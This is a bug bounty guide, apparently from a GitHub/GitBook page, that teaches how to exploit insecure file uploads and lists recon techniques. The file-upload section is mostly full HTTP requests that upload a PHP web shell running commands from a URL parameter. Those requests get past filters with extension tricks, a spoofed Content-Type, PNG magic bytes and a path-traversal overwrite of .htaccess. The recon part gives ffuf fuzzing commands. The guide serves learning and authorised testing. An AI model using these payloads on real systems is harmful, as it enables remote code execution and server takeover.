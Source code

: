 # Bug Bounty Hunting Mindset v1.0

<h2 align="center"><strong>Bug Bounty Hunting Mindset v1.0</strong></h2>

<p align="center">A focused and practical resource for bug bounty hunters, penetration testers, and red teamers — covering real-world techniques, bypasses, and offensive security insights.</p>

***

<h3 align="center"><strong>Vulnerabilities &#x26; Bypasses</strong></h3>

> **Info:**
>
> <p align="center">A collection of known vulnerability types with practical methods to bypass filters, protections, and common security mechanisms.</p>

#### <sup>**V01.**</sup>**&#x20;Insecure file uploads: A complete guide to finding advanced file upload vulnerabilities:**

1. **Identifying file upload vulnerabilities**
   * Retrievable
   * Content-Type
2. **Exploiting simple file upload vulnerabilities**
   *   No restrictions

       ```http
       POST /Api/FileUpload.aspx HTTP/2
       Host: console.example.com
       User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/130.0.0.0 Safari/537.3
       Content-Type: multipart/form-data; boundary=----WebKitFormBoundary3RwPFJztxaJvrqAq
       Accept: */*

       ------WebKitFormBoundary3RwPFJztxaJvrqAq
       Content-Disposition: form-data; name="file"; filename="shell.php"
       Content-Type: application/x-php

       <?php echo system($_GET['e']); ?>
       ------WebKitFormBoundary3RwPFJztxaJvrqAq--
       ```
   * Bypassing client-side restrictions
     *   HTML "accept" attribute

         ```html
         <input type="file" accept=".jpg, .jpeg, .png, .gif" />
         ```
     * using proxy interceptors
   *   Bypassing a file extension blacklist

       <figure><img src=".gitbook/assets/file-upload-vuln1.png" alt="Bypass file extension exclusion lists"><figcaption><p><strong>Bypass file extension exclusion lists</strong></p></figcaption></figure>
   *   Bypassing a file extension whitelist

       <figure><img src=".gitbook/assets/file-upload-vuln2.png" alt="Bypass file extension inclusion lists"><figcaption><p><strong>Bypass file extension inclusion lists</strong></p></figcaption></figure>

If the file upload implementation determines your file type by the content type, you can also attempt to upload a file with a whitelisted file extension but with your malicious content type:

```http
POST /Api/FileUpload.aspx HTTP/2
Host: console.example.com
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/130.0.0.0 Safari/537.3
Content-Type: multipart/form-data; boundary=----WebKitFormBoundary3RwPFJztxaJvrqAq
Accept: */*

------WebKitFormBoundary3RwPFJztxaJvrqAq
Content-Disposition: form-data; name="file"; filename="shell.png"
Content-Type: application/x-php

<?php echo system($_GET['e']); ?>
------WebKitFormBoundary3RwPFJztxaJvrqAq--
```

<p align="center">Take note of the <mark style="color:red;">filename</mark> and <mark style="color:red;">Content-Type</mark> in the example request above.</p>

3.  **Exploiting advanced file upload vulnerabilities**

    * Bypassing content type restrictions

    ```http
    POST /Api/FileUpload.aspx HTTP/2
    Host: console.example.com
    User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/130.0.0.0 Safari/537.3
    Content-Type: multipart/form-data; boundary=----WebKitFormBoundary3RwPFJztxaJvrqAq
    Accept: */*

    ------WebKitFormBoundary3RwPFJztxaJvrqAq
    Content-Disposition: form-data; name="file"; filename="shell.php"
    Content-Type: image/png

    <?php echo system($_GET['e']); ?>
    ------WebKitFormBoundary3RwPFJztxaJvrqAq--
    ```

    *   Magic bytes

        * These are the magic bytes for a normal image (PNG) in HEX:

        ```sh
        89 50 4E 47 0D 0A 1A 0A
        ```

        ```http
        POST /Api/FileUpload.aspx HTTP/2
        Host: console.example.com
        User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/130.0.0.0 Safari/537.3
        Content-Type: multipart/form-data; boundary=----WebKitFormBoundary3RwPFJztxaJvrqAq
        Accept: */*

        ------WebKitFormBoundary3RwPFJztxaJvrqAq
        Content-Disposition: form-data; name="file"; filename="shell.php"
        Content-Type: application/x-php

        ‰PNG␍␊␚␊
        <?php echo system($_GET['e']); ?>
        ------WebKitFormBoundary3RwPFJztxaJvrqAq--
        ```

        <p align="center"><a href="https://en.wikipedia.org/wiki/List_of_file_signatures">List of file signatures - Wikipedia</a></p>
    *   Overwriting server configuration files

        * .htaccess

        ```http
        POST /Api/FileUpload.aspx HTTP/2
        Host: console.example.com
        User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/130.0.0.0 Safari/537.3
        Content-Type: multipart/form-data; boundary=----WebKitFormBoundary3RwPFJztxaJvrqAq
        Accept: */*

        ------WebKitFormBoundary3RwPFJztxaJvrqAq
        Content-Disposition: form-data; name="file"; filename="../../../.htaccess"
        Content-Type: text/plain

        # Your server configuraton rules
        ------WebKitFormBoundary3RwPFJztxaJvrqAq--
        ```

***

#### <sup>**V02.**</sup>

***

<h3 align="center"><strong>Hunting Techniques &#x26; Ideas</strong></h3>

> **Info:**
>
> <p align="center">General strategies, techniques, and creative approaches to help you discover more bugs and uncover hidden attack surfaces.</p>

#### <sup>**T01.**</sup>**&#x20;7 Overlooked recon techniques to find more vulnerabilities:**

1. **Targeted wordlists**
   1. [CeWL](https://github.com/digininja/CeWL)
2. **Virtual host (VHost) enumeration**

```sh
ffuf -u https://example.com -H "Host: FUZZ.example.com" -w /path/to/wordlist
```

3. **Forced browsing using different HTTP methods**

```sh
ffuf -u https://api.example.com/PATH -X METHOD -w /path/to/wordlist:PATH -w /path/to/http_methods:METHOD
```

4. **JavaScript file monitoring**
   1. [JSMON](https://github.com/robre/jsmon)
5. **Crawling with different user-agent headers**
   1. <kbd>Proxy → Proxy settings → Tools → Proxy → HTTP match and replace rules</kbd>
6. **Finding related assets with favicon hashes**
   1. [Shodan](https://www.shodan.io/)
   2. [Censys](https://search.censys.io/)
7. **Looking up legacy versions of JavaScript files**
   1. [internet archives](https://archive.org/)

***

#### <sup>**T02.**</sup>

***

<h3 align="center"><strong>Closing Note</strong></h3>

It is my pleasure and honor to have your support and follow-up. I look forward to exchanging knowledge and collaborating with you in the field of cybersecurity.

Stay connected:

* **X Platform:** [iProgrammer16](https://x.com/iProgrammer16)
* **X Platform:** [1ZeroDay](https://x.com/1ZeroDay)
* **LinkedIn:** [Linkedin](https://www.linkedin.com/in/saleh16abdullah/)
* **Github:** [iProgrammer16](https://github.com/iProgrammer16)
* **Telegram Channel:** [1ZeroDay](https://t.me/+ylDx8zGNLEwzMWU8)
* **For collaboration on HackerOne:** [HackerOne Profile - iProgrammer16](https://hackerone.com/iprogrammer16)
* **All social links in one place:** [Linktr](https://linktr.ee/1ZeroDay)
